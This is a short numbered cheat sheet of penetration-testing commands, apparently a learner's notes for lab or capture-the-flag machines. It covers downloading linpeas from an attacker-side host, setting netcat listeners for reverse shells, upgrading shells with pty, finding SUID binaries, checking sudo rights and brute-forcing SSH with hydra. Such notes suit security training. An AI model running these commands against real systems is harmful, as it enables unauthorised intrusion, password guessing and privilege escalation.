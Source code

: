 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on target machine
2. python3 -m http.server 80 - setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
